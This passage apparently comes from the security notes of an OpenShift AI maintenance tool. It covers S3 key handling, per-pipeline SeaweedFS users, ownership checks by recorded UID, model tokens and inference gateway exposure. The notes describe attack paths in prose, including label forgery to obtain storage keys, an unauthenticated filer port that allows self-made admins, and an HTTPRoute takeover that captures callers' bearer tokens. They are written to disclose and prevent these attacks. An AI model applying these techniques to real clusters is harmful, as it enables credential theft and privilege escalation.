commit whose `deploy/template.yaml` matches; they do not verify a signature (the images are not signed). The label is read anonymously through the registry's v2 API (else `oc image info`): every manifest read by digest must hash to that digest (the pinned `@sha256:` reference; in a manifest list, the `PLATFORM` entry's digest), and the config blob to the manifest's config digest, so a registry or CDN answer cannot swap in another image's label; redirects are followed to `https` only (`http` only from a registry on `localhost`/`127.0.0.1` to the same machine), and the registry token goes only to the registry's own origin (`scripts/test-install.sh`). The no-clone `install.sh` is checked with the SHA-256 in its release notes (the update notice's command does this since 4.0.0, reading the checksum from the GitHub or GitLab releases API); the notes and the asset come from the same release host, so this detects a replaced or corrupted file, not a compromised host.

## Per-feature notes

What each feature does that matters for security, as of 4.0.0. Every change below runs with the signed-in cluster-admin's own token, so the API server checks it against their RBAC; the ServiceAccount only reads for the status pages (its rules: [ServiceAccount RBAC](#serviceaccount-rbac)). What each feature writes, object by object: [CLUSTER_CHANGES §8](docs/CLUSTER_CHANGES.md#8-environment-page). The rules each feature needed while the ServiceAccount made the changes: [History](#history).

Common to every feature: everything the tool writes carries the tool label and is written with the tool's field manager; its deletes carry a UID precondition; a change of several steps sends its writes as server-side dry runs before the first real one, so a refusal changes nothing; and an object of the same name that someone else made is used as it is or refused, never changed or deleted. The label and the field manager can be imitated by whoever may create such an object in that namespace, so where a project's editors could do that, the tool records the UID of what it creates in its own namespace (ConfigMap `rhoai-nightly-updater-snapshot`, which project users cannot write) and decides ownership by that record: pipeline servers, models, playgrounds, the inference gateway's projects, MaaS publications.

### Credentials

- The pull-secret token is never logged, returned, or written to the activity log. Since 3.0.1 that includes an API error that quotes the object it was sent (an admission webhook or a validation message): the auth value, its base64, the decoded `user:password`, the whole config (JSON and base64) and the other registries' credentials are replaced with `[redacted]` before the message is returned or recorded (`TestCreatePullSecret_RedactsTheCredentialFromWriteErrors`). Only the `quay.io/rhoai` entry of `kube-system/additional-pull-secret` is replaced; other registries are kept.
- The Quay token is derived from the cluster pull secret on the server and never sent to the browser.
- The S3 storage's access key and secret key are random per install (or set with `SEAWEEDFS_ACCESS_KEY_ID` and `SEAWEEDFS_SECRET_ACCESS_KEY` on a first setup) and stored in `seaweedfs/seaweedfs-s3-credentials`. The SeaweedFS admin UI password is a separate random value in the same Secret (key `WEED_ADMIN_PASSWORD`, 3.0.0); it reaches the pod through the environment, not the command line. Storage set up before 3.0.0 used the S3 secret key there: its status asks for Repair, which writes a password of its own and keeps the S3 keys. Since 5.0.0 each pipeline project holds a SeaweedFS key of its own in `nightly-dspa-s3`, not these keys ([S3 storage keys](#s3-storage-keys-a-key-per-pipeline-server-500)); it still reads and writes every project's pipeline artifacts in bucket `pipelines`. Storage an earlier version set up keeps the admin key in every pipeline project until Secure S3 storage runs. The admin UI password is in none of them.
- **The S3 keys** (Environment page, S3 storage tab: the access key, the secret key and the admin UI password, shown or copied on demand, and "Copy as environment variables") come from `GET /api/resources/s3/admin-password`, an admin read (`withAdminRead`): it answers only a user who passes the cluster-admin check (such a user can read the Secret with their own token, so nothing is revealed that they could not read), and reads Secret `seaweedfs-s3-credentials` with the ServiceAccount's named `get`, only on that request (the status never returns the keys), only for storage this tool created (tool-labelled namespace, Secret written by the tool), with `Cache-Control: no-store`. The log line names the user, never the value. It takes no lock and changes nothing. The gitops profile has no Environment page, so the route answers 403 `profile_gitops` there, before any read (`deploy/rbac-gitops.yaml` grants no Secret read).
- `GITHUB_TOKEN` (optional) is sent only to `api.github.com`. Use a read-only token with public-repository access. The update check's read of a release's notes (for the installer checksum) is anonymous and sends no token.

### S3 storage and pipeline servers

The S3 storage (SeaweedFS in namespace `seaweedfs`) has one identity: its keys open every project's pipeline artifacts. Its exposures (open SeaweedFS ports, the admin Route's `/metrics`, logs) are under [Known limitations](#known-limitations-and-residual-risks).

**Which namespace `minio` is the tool's (3.0.0).** Any user who may request projects can run `oc new-project minio` and put objects there that carry the tool's label and field manager, with keys of their choosing; an object's own markers prove nothing. Before 3.0.0 Migrate storage then set up the new storage with that user's keys. Namespace `minio` counts as an earlier version's storage only when the namespace itself shows the tool made it (`legacyNamespaceOurs`): it carries the tool label (2.x created it with the label and labelled the ones earlier versions made; only someone who may patch namespaces can set it, not a project's own admin), or, for the earliest versions, it was created by their plain POST (manager `Go-http-client`) and has no `openshift.io/requester` annotation, which every ProjectRequest sets. Otherwise it is ignored: the status says plainly that namespace `minio` is not this tool's, Migrate storage has nothing to do, nothing in it is read or changed, and setting up the S3 storage is not blocked. A namespace `seaweedfs` someone made first still stops the storage's setup with a clear message (a denial of service only: nothing is adopted).

**Fresh keys.** Migrate storage gives the new storage keys of its own (new random ones, or the new storage's when it is already set up), never the old storage's, and writes them into the Secret `nightly-dspa-s3` of every pipeline server it moves. Whoever knew the old keys (from `minio-secret`, a pipeline project's copy, or because they planted the storage) has no access to the new storage. Clients set up by hand on the old storage need the new keys (the S3 storage tab shows them).

**The copy Job.** Migrate storage copies the data with Job `seaweedfs-migrate` (rclone, pinned by digest; `RCLONE_IMAGE` overrides it) in namespace `seaweedfs`: the copy has to run inside the cluster network, or the backend would stream every object through its own pod. The old keys reach it only through Secret `seaweedfs/seaweedfs-migrate-source`: an earlier run's is read and deleted by UID before a new one is created, and the Job is made its owner, so garbage collection removes it with the Job whichever way the Job ends (deleted after its result is read, by a later run, or by its TTL). The result comes back in the pod's termination message, so nothing reads `pods/log`. The pod: `runAsNonRoot`, `allowPrivilegeEscalation: false`, all capabilities dropped, seccomp `RuntimeDefault`, no UID (restricted-v2 assigns one), `automountServiceAccountToken: false`, CPU and memory requests and limits, `backoffLimit: 0`, `activeDeadlineSeconds: 3600`, `ttlSecondsAfterFinished: 86400`. The S3 keys reach it only through `secretKeyRef` (the old ones to `seaweedfs/seaweedfs-migrate-source`, the new ones to `seaweedfs/seaweedfs-s3-credentials`), never in its command, arguments or the operation's output. It needs no NetworkPolicy change: `seaweedfs-ingress` admits the S3 port from every pod, and so do the earlier storage's policies.

**Deleting a namespace.** The storage's Delete may also delete namespace `seaweedfs`, and Delete old storage namespace `minio`, only when the user ticks it (unticked by default), only once every storage object is gone, only when the namespace carries the tool label and a tool manager wrote it, and with a UID precondition. Who created a namespace cannot be proven from its metadata (a managedFields entry's time is the manager's last write), so this is the user's informed choice: the dialog says it deletes everything in the namespace, including what the tool did not create, and lists the Deployments and PVCs there that the tool did not create.

**The dashboard Connection.** Each pipeline server this tool sets up gets the dashboard S3 Connection `rhoai-nightly-updater-s3` (keys, in-cluster endpoint, region, bucket), owned by the DSPA and deleted by teardown only when it carries the tool label, by UID. It holds the same S3 keys as `nightly-dspa-s3` in the same project, so whoever can read Secrets there could read them anyway. Its endpoint is the in-cluster Service, not a Route. Owner references set neither `controller` nor `blockOwnerDeletion`.

**Workbenches that use the Connection (5.0.0).** A user may attach the Connection to a workbench in the dashboard, which records it only in the Notebook's annotation `opendatahub.io/connections` (comma-separated `<namespace>/<name>`). The workbenches connection webhook (workbenches-operator `internal/webhook/notebook/mutating.go`, `connection-notebook.opendatahub.io`, `failurePolicy: Fail`) denies every update of a Notebook whose annotation names a Secret that does not exist, Stop and Start included, so deleting the pipeline server (which garbage-collects the Connection) would leave such workbenches stuck. Every path that deletes the pipeline server or the Connection (Delete, Recreate, Clean up; deleting a recipe project deletes its Notebooks with the namespace, which the webhook does not block) first lists the project's Notebooks that name the Connection and takes it off each of them, only after the user confirmed each one as the Notebook they reviewed (`confirmWorkbenches`, name to UID: one deleted and made again under the same name since is not confirmed; a workbench that uses it and was not confirmed refuses the request before anything changes, and so does a list that cannot be read). The patch is a JSON patch that tests the Notebook's UID, `resourceVersion` and the annotation value read, then rewrites only that entry (the annotation is removed when nothing is left); the webhook removes the `envFrom` itself, and the tool does not touch it. That changes the Notebook's pod template, so **a running workbench restarts** (odh-notebook-controller lets the restart through; kernels and work not saved to disk are lost): the status and every confirmation mark the running ones (no `kubeflow-resource-stopped` annotation) and say so. Every patch is first sent as a server-side dry run (`dryRun=All`; the webhook has `sideEffects: None`), so a refusal changes no workbench; a webhook denial (a 403 whose message starts with `admission webhook "`, for example because another Connection the workbench names no longer exists) is reported as `webhook_refused` with the workbench and the webhook's reason, not as a missing permission. A failed patch stops the teardown before anything is deleted. Workbenches that load the Connection through `envFrom` without naming it in the annotation (attached the RHOAI 2.x way) are listed but not changed: they fail to start once it is deleted, until it is removed from them in the dashboard. Workbenches already stuck on a missing Connection are not repaired. Right before the delete the Notebooks are listed again, and a workbench that attached the Connection meanwhile refuses the teardown the same way (nothing deleted; run it again to confirm that one too). A Notebook could still attach it in the moment between that read and the delete; the API offers no lock across objects. Requests carry at most 500 confirmed workbenches (setup and teardown bodies up to 192 KiB, a clean-up up to 512 KiB, each sized for the largest valid request).

| Request | Token | Scope | When |
|---|---|---|---|
| `list kubeflow.org/notebooks` | the user's | the pipeline server's project | the status (selected project, while the Connection is the tool's) and before a teardown |
| `patch kubeflow.org/notebooks` | the user's | a confirmed Notebook of that project whose annotation names `<project>/rhoai-nightly-updater-s3`; only that entry changes | a teardown, after the confirmation, before the delete |

The ServiceAccount gains nothing: the admin status lists the Notebooks with the signed-in admin's token (`listConnectionWorkbenches`, a user-token read). Tests: `TestTeardownPipelineServer_RemovesTheConnectionFromItsWorkbenchesFirst`, `TestTeardownPipelineServer_UnconfirmedWorkbenchRefusesBeforeAnyChange`, `TestTeardownPipelineServer_WorkbenchChangedAbortsBeforeDelete`, `TestCleanUp_UnconfirmedConnectionWorkbenchesRefuseUpFront`.

#### Which pipeline servers get the storage keys (3.0.1)

The S3 storage has one identity: the keys every pipeline server's Secret `nightly-dspa-s3` (and the dashboard Connection `rhoai-nightly-updater-s3`) holds open every project's pipeline artifacts. Until 3.0.1, Migrate storage took any DSPA on the old storage with the tool's label (or, for the earliest versions' `dspa`, the tool's field managers on its object storage) as the tool's, in any namespace, repointed it and wrote those keys into its project. A project editor can set both on a DSPA of their own (the label is theirs to write, and a client names its own `fieldManager`), so they could receive the keys when a cluster-admin ran Migrate storage.

Now the tool records the UID of each pipeline server it sets up or moves, in its snapshot ConfigMap (data key `pipelineServers`, by `<project>/<name>`, server-side applied as field manager `rhoai-nightly-updater-pipelines` with the existing `patch` on that ConfigMap; project users cannot write the tool's namespace). Migrate storage moves a pipeline server only when its UID is the recorded one, or when the user ticks its project in the dialog, which lists each unrecorded one, unticked by default, and says that moving it writes the storage's keys into its project; it records the ones it moved. A record that cannot be read stops the run before anything is written. Pipeline servers set up before 3.0.1 have no record, so the first Migrate storage after the upgrade asks about each of them. Setup records the one it creates in the project the user chose; when that project already has a `dspa` with the tool's label, Set up again adopts it (the confirmation says so: it writes the keys into that project, as any setup there does). Teardown drops the entry. Tests: `TestMigrate_AForgedPipelineServerGetsNoKeys` (no write in the project, no Secret created), `TestMigrate_AConfirmedProjectIsMovedAndRecorded`, `TestMigrate_AnUnreadableRecordStopsBeforeAnyWrite`. No RBAC changed.

#### S3 storage keys: a key per pipeline server (5.0.0)

**What changed.** Until 5.0.0 every pipeline project held the storage's admin key (`seaweedfs-s3-credentials`) in `nightly-dspa-s3` and the Connection `rhoai-nightly-updater-s3`. That key can create buckets, delete anything, and, once SeaweedFS's IAM writes are on, make users. Now:

- A first setup (and Migrate storage) starts `weed mini` with `-s3.iam.readOnly=false` (IAM writes on; the admin key can make users) and `-s3.iam.selfServiceRequiresGrant=true` (a user cannot make or delete keys for itself; it can by default in 4.54). Both flags go out in the same rollout as a new admin key, so the old key never works while IAM writes are on.
- Each pipeline server the tool records ([above](#which-pipeline-servers-get-the-storage-keys-301)) gets SeaweedFS user `rnu-dspa-<project>` (a longer name ends in a hash; tag `rnu-namespace` holds the project) with inline policy `rnu-pipelines`: `s3:ListBucket`, `s3:GetObject`, `s3:PutObject`, `s3:DeleteObject` on `arn:aws:s3:::pipelines` and `arn:aws:s3:::pipelines/*`, nothing else (no bucket, tagging or ACL calls; KFP makes none). Its key goes into both Secrets of the project only after it passed a check against the storage: the data-science-pipelines operator's own `HEAD pipelines/some-random-object` must answer 404, then a list, write, read and delete of an object under `rhoai-nightly-updater-probe/`. The admin key stays in `seaweedfs-s3-credentials`.
- Storage an earlier version set up keeps running as it was (Repair does not turn IAM writes on) and shows **Not secured**. **Secure S3 storage** is an explicit action, never run on its own (not on upgrade, not by the status), streamed as one operation under the cluster lock (`POST /api/resources/s3/secure/stream`, recorded as `secure-s3` in the activity log): every check first (storage ready, no migration pending, every recorded pipeline server and both of its Secrets readable and the tool's, each Secret write dry-run), then the rollout with the new admin key and the flags, then a key per recorded server (Secrets patched in place with a `resourceVersion` precondition; annotations `rhoai-nightly-updater/s3-user` and `s3-key-id` on the DSPA only make the operator check the storage again). It resumes per server. Pipeline servers the tool did not record keep the old key, which stops working; the confirmation lists them. Set up refuses a new pipeline server on storage that is not secured (fail closed).
- Deleting a pipeline server deletes its user: its keys first (SeaweedFS refuses `DeleteUser` while keys exist), then the user with its policy and tags. Deleting the storage deletes every `rnu-dspa-*` user first, best effort (the data volume holds them and goes too).

**The gap that remains.** Every pipeline key may read, write and delete the whole bucket `pipelines`: a project's key reaches every other project's artifacts, as before, minus the admin rights. KFP v2 writes `<pipelineName>/<runID>/...` with no project in the path, cached steps reuse earlier URIs and Elyra writes from the bucket root, so per-prefix policies would break existing runs. The isolation step is one bucket per project (a new pipeline server on its own bucket, an old one moved with a copy as Migrate storage does), not done yet. What the key per server gives now: no project holds the admin key, a key can be revoked per project, and calls are attributable per user.

**SeaweedFS IAM and S3 calls.** They go to Service `seaweedfs-s3` port 8333 (the embedded IAM API is on the S3 port), signed with AWS Signature Version 4, never through the Kubernetes API, so they add no row to the RBAC golden and need no grant:

| Call | Key | When |
|---|---|---|
| `CreateUser`, `PutUserPolicy`, `TagUser`, `ListAccessKeys`, `DeleteAccessKey`, `CreateAccessKey` | admin | Set up a pipeline server, Secure S3 storage, Migrate storage |
| `ListAccessKeys`, `DeleteAccessKey`, `DeleteUser` | admin | Delete a pipeline server |
| `ListUsers`, `ListAccessKeys`, `DeleteAccessKey`, `DeleteUser` | admin | Delete the S3 storage (users named `rnu-dspa-*` only; the static admin is listed as `admin-<8 characters>`) |
| `ListAccessKeys` | admin | The status, per recorded pipeline server, on secured storage only |
| `HEAD`, `PUT`, `GET` (object and list), `DELETE` of objects in `pipelines` | the new pipeline key | The check of a new key |

**The status.** Which key a pipeline server uses is read live: it uses its own when the access key ID in its Connection is one of its user's keys. The status reads the Connection's data with the ServiceAccount's existing named `get` on `rhoai-nightly-updater-s3`, and the admin key with its existing named `get` on `seaweedfs-s3-credentials`: new uses of existing grants, no new grant (the ServiceAccount has no `get` on `nightly-dspa-s3`). The status never returns a key.

**The admin key can now make users.** On secured storage the admin key (Secret `seaweedfs-s3-credentials`, and what `GET /api/resources/s3/admin-password` returns to a cluster-admin) may create SeaweedFS users and keys, not only read and write every bucket. Treat it as the storage's root credential: it is in no project, and a new one is made by Secure S3 storage, by a first setup, and by a setup that finds the Secret without its Deployment. The pod template carries an HMAC of the admin keys and the admin UI password (`rhoai-nightly-updater/admin-key-checksum`, keyed with a random value in the same Secret, `RNU_CHECKSUM_KEY`), so a changed Secret restarts the pod with it.

**Leftover keys.** A pipeline server deleted while SeaweedFS did not answer, or outside this tool (the RHOAI dashboard, a deleted project), leaves its user and a working key. A `rnu-dspa-*` user is a leftover only when the project its `rnu-namespace` tag names has no pipeline server at all (any DSPA that is not being deleted, whoever made it, recorded or not); a user without that tag is kept, and any read that fails makes nothing a leftover. The status lists them. Only explicit actions whose confirmation lists them delete them: Remove leftover keys (`POST /api/resources/s3/leftover-keys/remove`) and Secure S3 storage; each reads the pipeline servers again under the cluster lock, and right before deleting a user reads its project's pipeline servers once more; it deletes only users in both lists whose project still has no pipeline server, keys first, and any read that fails (a DSPA API answering 404 included) deletes nothing more. A user's project is its name (or, for a hashed long name, its tag). Deleting a pipeline server keeps the project's user while any other pipeline server remains there. Repair, recipes and pipeline setup never delete a user. Only names with that prefix are touched, never the static admin.

**The NetworkPolicy is a security control.** `weed mini`'s filer gRPC port (18888) serves the IAM store without authentication whatever `-s3.iam.readOnly` says (seen in a local spike with 4.54): a pod that reached it could make itself an admin. `seaweedfs-ingress` admits only 8333 (any namespace) and 12535 (the router); `TestS3NetworkPolicyAllowsOnlyS3AndAdminUI` pins that (each entry exactly protocol and port, no `endPort`). The status reads the policy (the ServiceAccount's existing named `get`) and asks for Repair when it is missing or admits anything else. Never relax it.

**Checked how.** Unit tests with a fake SeaweedFS (`pkg/cluster/s3_secure_test.go`), and `make test-seaweedfs-podman` against the pinned 4.54 image in Podman (not in CI): IAM writes refused while read-only; the old admin key refused after the rotation; a pipeline key passes the operator's check and is denied `CreateUser`, `CreateAccessKey` and `PutUserPolicy` for itself, `DeleteUser` of another and `CreateBucket`; users, keys and policies survive a container restart; after `DeleteUser` the key stops working. After a restart the first object write takes about 11 seconds in Podman, so the key check waits up to 45. Not checked live on OpenShift yet.

#### The sample pipeline's token

**The sample pipeline runs with a scoped, short-lived token (3.0.0).** The tool does not call a pipeline server's (KFP) API. That API is a Service (and Route) in the user's project: anyone who can edit the project can run a pod with the Service's selector labels and the serving certificate from the project's `ds-pipelines-proxy-tls-*` Secret, and receive what is sent there. Sending the SA token there would have handed a project editor the SA's cluster-wide rights (in DEV_MODE, the developer's token), and so would the user's own token (a cluster-admin's, for most users of this tool): the commands used `oc whoami -t` until the final review of 3.0.0. So the Pipelines tab offers the sample as a file (`GET /api/resources/samples/pipeline/spec`, no cluster request) with commands the user runs (as an admin of the project) that make ServiceAccount `pipeline-api`, a Role `pipeline-api` with the one rule `get` `create` on `datasciencepipelinesapplications/api` of that pipeline server (`--resource-name`), a RoleBinding, and `oc create token pipeline-api --duration=15m`; the `curl` calls send only that token. The rule is exactly what the server's kube-rbac-proxy checks: data-science-pipelines-operator rhoai-3.6 `config/internal/apiserver/default/kube-rbac-proxy-config.yaml.tmpl` (resourceAttributes: group `datasciencepipelinesapplications.opendatahub.io`, resource `datasciencepipelinesapplications`, subresource `api`, name the DSPA; the Route targets the proxy port, `config/internal/apiserver/route/route.yaml.tmpl`), and kube-rbac-proxy (openshift/kube-rbac-proxy `pkg/proxy/proxy.go`) maps GET to `get` and POST to `create`. A captured token can call only that pipeline server's API, which its captor already controls, and expires within 15 minutes. The KFP SDK snippet under Use it reads the same `$TOKEN`. The tab shows the `oc delete` that removes the three. The earlier rule `datasciencepipelinesapplications/api` `get create delete` on `nightly-dspa` was removed from the tool's own ServiceAccount. `TestTemplateGrantsNoPipelineServerAPI` keeps it out.

### MLflow samples

The Environment page adds sample data to one project: four MLflow samples (MLflow's own GenAI demo, a training experiment with a registered model, an MCP server entry, an agent skill). These calls go to MLflow (at its CR's `status.url`, the cluster's data-science gateway), not to the Kubernetes API: adding and removing a sample with the signed-in user's own token (since 4.0.0), and since 5.0.0 the samples status too (before, the app's own token). MLflow authorizes the token with access reviews:

- MLflow (mlflow-kubernetes-plugins 2.1.1, SelfSubjectAccessReview mode) checks group `mlflow.kubeflow.org` in the namespace the `X-MLflow-Workspace` header names, first without a name and, when that is denied, with each resolved name (`auth/core.py:812-851`). So `resourceNames` limit these rules; `create` is never checked with a name (`auth/authorizer.py:131-140`).

Until 5.0.0 the ServiceAccount had `get` on the samples' names for the status; the status now reads with the user's token, so those rules are gone ([Per-user views](#per-user-views-500)). `mlflow.kubeflow.org` is not an API the API server serves, so `oc auth can-i` cannot resolve it (it answers `no` even for allowed rules); ask the API server with a SubjectAccessReview, as MLflow does (the `sar` helper in [the samples audit](docs/SECURITY_HISTORY.md#audits-of-earlier-template-revisions)).

Adding and removing are mutations behind the cluster-admin gate, the lock and the activity log; the status uses only named reads. Every MLflow samples call first checks that the project is a Data Science project (`isDSProject`; for the status since 5.0.0, one of the user's, through the projects API). The status is cached per user (token, project and the project's invalidation count). The test MLflow server serves only the listed routes (`pkg/cluster/samples_rbac_test.go`). The servers' own access reviews are not derived from code: the MLflow and playground server-request lists (`mlflowFakeRules`, `playgroundServerRequests`) record the reviews MLflow and the dashboard's gen-ai API were seen to make, verified live on RHOAI 3.6 (2026-11-16 and 17). Since 5.0.0 the template grants none of those reviews on the status's account (`TestUserTokenReviewsAreNotTheServiceAccounts`); a change in those servers is caught only by checking live again.

What the samples touch, and how the tool keeps to its own:

- *The demo.* MLflow's demo generator (`POST /ajax-api/3.0/mlflow/demo/generate`) creates experiments, evaluation datasets and registered models. The tool creates experiment `MLflow Demo` with its marker tag before the generator runs and touches only a marked one, because the generator deletes up to 200 traces of the experiment, whoever logged them (`generators/traces.py:421-441`). To regenerate it after a removal in MLflow, it restores the experiment and sets its feature version tags to `0`, and deletes a version tag left at `0` for a feature the server's generator lacks. It does not remove the demo (Add and Regenerate only): MLflow's `demo/delete` checks `delete` on all three types without a name (`rules_base.py:1183-1187`).
- *The training sample* (experiment `nightly-sample-training`, registered model `nightly-sample-classifier`): runs, metrics, model versions, the `champion` alias, and its removal (model deleted, experiment soft-deleted). A retry after an Add that stopped completes a run it left running and reuses model versions whose run matches. The tool refuses to touch an object of these names that lacks its marker tag `rhoai-nightly-updater.sample`.
- *The MCP server entry* (`com.deepwiki/rhoai-nightly-sample`, pointing at DeepWiki's public server; a changed entry could point the Gen AI playground elsewhere, but only for users who pick that entry) and *the agent skill* (`nightly-sample-mcp-builder`, metadata only: MLflow never fetches the source): before tagging an entry it did not find, the tool lists its versions; when someone created the entry meanwhile, it deletes only the version it added and leaves theirs.

No Kubernetes object becomes readable or writable: `mlflow.kubeflow.org` resources exist only as names in MLflow's access reviews. The gitops profile refuses the samples routes and `deploy/rbac-gitops.yaml` gets none of these rules. Leftovers: MLflow keeps soft-deleted experiments and runs (and the demo's REJECTED issues) until its garbage collection runs.

### Models

The Environment page's Models tab sets up the cluster's inference gateway (GatewayClass `openshift-ai-inference`, ConfigMap `openshift-ingress/openshift-ai-inference-options`, Gateway `openshift-ingress/openshift-ai-inference`), as its own part, and small CPU models of a fixed catalog (LLMInferenceServices `smollm2-135m-instruct`, `qwen25-05b-instruct`, `qwen3-1-7b`, `granite-embedding-125m-english` in a data science project, one or more per project), and removes them. The catalog is a fixed list in the code (`modelCatalog`, `toolModelPath`). The gateway's AuthPolicy (made by odh-model-controller) accepts any token whose user may `get` the model. The route `POST /api/resources/models/stream` is a mutation behind the cluster-admin gate, the lock, the rate limit and the activity log; the gitops profile refuses it.

The released vLLM CPU image is found with one anonymous HTTPS request to Red Hat's public container catalog (`catalog.redhat.com`, no credentials sent), only during a setup that needs it, and is pulled from `registry.redhat.io` with the cluster's own pull secret; `VLLM_CPU_IMAGE` replaces the lookup on disconnected clusters. Before writing anything, a setup reads the project's ResourceQuotas and says when one leaves less than the model needs (hard minus used; quotas it cannot read are no warning). The model's ephemeral-storage request (its download, on the node's disk by KServe's default) is written in the model's own `spec.template`, and the setting it depends on is read from ConfigMap `inferenceservice-config`; the storage-initializer setting (`STORAGE_IGNORE_PATTERNS`) only narrows what is downloaded.

#### Which models are the tool's

A model's name is one of the catalog's, which any project editor may give an LLMInferenceService of their own, and so are the tool's label and a write under its field manager (a client names its own `fieldManager`). Until this review (3.0.0, before release) those markers decided ownership: an editor could make a look-alike `qwen3-1-7b` and get a cluster-admin to publish it to MaaS, offered to every signed-in user under the tool's subscription. Now the tool records the UID the API server gives each model it creates, in its own namespace (snapshot ConfigMap, data key `models`, by `<project>/<model>`, server-side applied as field manager `rhoai-nightly-updater-models` with the existing `patch` on that ConfigMap; project users cannot write that namespace). A model is the tool's only when its UID is the recorded one: setup, teardown, publish, unpublish, the playground's embedding model and the Models and MaaS tabs all decide so. A model that cannot be recorded right after its create is deleted again (by its UID), so none is left as nobody's; teardown drops the entry. A model deleted elsewhere and made again under the name has another UID and is someone else's. Publish also refuses the tool's own model when its spec no longer holds what the tool set (final review of 3.0.0): an editor could change its image, model URI or preset before a cluster-admin publishes it to every signed-in user. The check compares content, not who wrote it, since KServe's defaulting (field manager `manager`) owns parts of every model's template on RHOAI 3.6 (live). It compares `spec.model.uri` and `name`, `spec.baseRefs` (the CPU preset found now), and, for every container and init container of `spec.template`, the image (none, `VLLM_CPU_IMAGE`'s, or a Red Hat release of the preset's repository pinned by digest), `command`, `args`, `env` (exactly the catalog's, `VLLM_ADDITIONAL_ARGS` included, plain values), `envFrom` and `volumeMounts`; any other container, any other `spec.template` field (`volumes`, `serviceAccountName`, ...) and any other top-level spec field (`prefill`, `worker`, ...) is a difference. Resources are not compared. The refusal names the differing fields. It runs in the check step and again on the read whose `resourceVersion` guards the routing write, so a later edit makes that write fail (`TestMaaSPublish_RefusesAChangedModelSpec`, `TestMaaSPublish_PublishesAModelKServeDefaulted`). Setting the model up again keeps a released image only when it is such a Red Hat release, so it restores a changed image. No release set up a model of this catalog, so nothing earlier is adopted; a model a pre-release 3.0.0 build set up has no record and shows as not the tool's (RUNBOOK: delete it with `oc` and set it up again). No RBAC changed.

#### A model's token

<a id="audit-a-models-token-authentication-300"></a>
Each model gets what the dashboard's "Require token authentication" makes for an LLMInferenceService (odh-dashboard rhoai-3.6 `packages/model-serving/src/concepts/auth.ts`, `packages/k8s-core/src/api/secrets.ts`, `llmd-serving` `deploy.ts` L363-378): ServiceAccount `<model>-sa`, Role `<model>-view-role` with the one rule `get` on `llminferenceservices` `<model>` in group `serving.kserve.io`, RoleBinding `<model>-view` of that Role to that ServiceAccount, and Secret `default-name-<model>-sa` of type `kubernetes.io/service-account-token` for it. Each has the dashboard's labels and annotations, the tool label, and an ownerReference to the model (`blockOwnerDeletion: false`, as the dashboard sets it). Without them, the dashboard listed no token for the model, and saving its Edit wrote `security.opendatahub.io/enable-auth: "false"`, turning authentication off without a word. The model's own token can only `get` that model, which is what the gateway's AuthPolicy asks of a caller, so the Models tab's commands use it, and only it: they are shown only for a model whose UID and token Secret UID the tool recorded. A model is a pod in a project its editors control (they can replace what answers at its address), so the user's own token is never offered for it (it was the fallback for a model with no token Secret, and for a look-alike of a catalog name, until the final review of 3.0.0). A tool model without a token Secret gets **Set up again to create its token**; someone else's model, the dashboard's token for that deployment. Teardown deletes the four (only the model's own: ownerReference to its recorded UID, and the Secret by its recorded UID) before the model; garbage collection removes them with the model anyway.

The Secret's token is readable by anyone who can read Secrets in the project (project editors and admins), as the dashboard's is; it can only `get` that one model. Setup refuses, before writing anything, when an object of one of these names exists that is not the model's. The tool checks its own token Secret with a dry-run delete carrying the recorded UID as a precondition, and reads it only for "Can it be called?", with the user's token during a change ([Which token is used where](#which-token-is-used-where)).

#### How a model is reached, and "Can it be called?" (4.0.0)

A model is reached the way its setup chooses (`pkg/cluster/internal/serving/models_exposure.go`): KServe's default gateway, MaaS only, another gateway that already admits the project, or only inside the cluster. A model setup never creates a gateway any more (the inference gateway is its own part with its own Set up), and never changes someone else's gateway: one that does not admit the project is offered with the step its owner takes. MaaS's gateway and the RHOAI operator's own gateway (`data-science-gateway`, or any Gateway a `GatewayConfig` owns) are never offered for refs. Connectivity Link and its Kuadrant CR are installed (as the MaaS docs do) only when the chosen way goes through a gateway. A model reached only inside the cluster answers without authentication to any pod whose network reaches its project; the setup says so before it runs, and turns token authentication off (`security.opendatahub.io/enable-auth: "false"`) only while Connectivity Link is missing, because KServe would not start the model otherwise. The tool never *recommends* a gateway whose token checks it cannot confirm: one labelled `opendatahub.io/managed=false` (odh-model-controller adds no AuthPolicy there) or one outside `openshift-ingress` (where it cannot read AuthPolicies); those are offered for an explicit choice only. KServe's default gateway is used only when `inferenceservice-config` names it; an unreadable or unset one is never assumed (a project would otherwise be added to the tool's gateway's list for a model that may route elsewhere). "Can it be called?" through a gateway also sends the same request without any token, after the model answered with its own: the gateway must refuse it, and an answer fails the check as unauthenticated (`TestModelsSetup_AGatewayThatAnswersWithoutATokenFailsTheCheck`); the request carries no credential, so it exposes nothing.

### The inference gateway

**Route takeover on the inference gateway (found and confirmed live 2026-11-18; prevented in 3.0.0 by RHOAI's documented names list).** A Gateway whose listeners accept routes from every namespace (`allowedRoutes.namespaces.from: All`, the default of RHOAI's chart `opendatahub-io/odh-gitops` `charts/rhai-on-openshift-chart` until August 2026, which earlier builds of this tool copied) lets anyone who may create an HTTPRoute in any project (a project's `edit` role is enough) attach a route to it. Gateway API ranks an `Exact` path above KServe's `PathPrefix`, so a route with the exact path of another project's model (`/<project>/<model>/v1/chat/completions`) receives that model's calls, including each caller's `Authorization: Bearer` token. odh-model-controller's AuthPolicy on the gateway (`<gateway>-authn`) checks the caller (TokenReview, then a SubjectAccessReview for `get` on the model the path names) but does not decide which backend answers, so it does not help. Live: a route in another project received 3 of 3 calls to `qwen25-05b-instruct`, with the caller's token. OpenShift's Gateway API documentation says the same ("Do not set namespaces.from: All; that setting allows routes from every namespace and can enable hostname or domain hijacking"), and RHOAI's llm-d guide says to "only use shared Gateways across trusted namespaces".

The fix is RHOAI's documented setup for this Gateway: both listeners of the gateway this tool creates list the namespaces they allow by name (`from: Selector`, `matchExpressions` `kubernetes.io/metadata.name In [...]`). The chart now requires `from` to be set (Selector recommended) and shows that list as its example; the RHOAI 3.4 llm-d guide's troubleshooting says "Ensure your model deployment namespace is listed in the values array"; RHOAI 3.6's own `data-science-gateway` is made the same way (seen live). Only routes in listed projects attach, so only the editors of listed projects can attach a route, and each of them can still take over the address of a model in another listed project: the list narrows who can, it does not separate the listed projects from each other.

